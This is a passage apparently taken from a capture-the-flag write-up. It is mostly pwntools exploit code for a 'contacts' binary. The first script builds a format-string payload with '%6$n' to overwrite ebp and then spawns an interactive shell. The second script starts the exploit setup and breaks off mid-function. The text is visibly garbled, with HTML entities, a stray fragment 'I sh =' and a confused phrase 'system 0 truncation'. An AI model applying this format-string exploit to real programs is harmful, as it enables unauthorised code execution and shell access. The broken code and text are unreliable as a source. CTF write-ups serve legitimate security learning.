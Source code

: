 ```python
## modify ebp

part1 = (heap_addr - 4) / 2

part2 = heap_addr - 4 - part1

payload = '%' + str(part1) + 'x%' + str(part2) + 'x%6$n'

##print payload

createcontact('3333', '123456789', '300', payload)

print contact ()
sh.recvuntil('Description: ')

sh.recvuntil('Description: ')

##gdb.attach(sh)

print 'get shell'

sh.recvuntil (&#39;&gt;&gt;&gt;&#39;)
##get shell

sh.sendline('5')

sh.interactive()

```

In the case of system 0 truncation, exp is as follows:
```python

from pwn import *

context.log_level="debug"

context.arch="x86"



io=process("./contacts")

binary=ELF("contacts")

libc=binary.libc


def createcontact(io, name, phone, descrip_len, description):

I sh =
sh.recvuntil (&#39;&gt;&gt;&gt;&#39;)
	sh.sendline('1')

	sh.recvuntil('Contact info: \n')

	sh.recvuntil('Name: ')

	sh.sendline(name)

	sh.recvuntil('You have 10 numbers\n')

	sh.sendline(phone)

```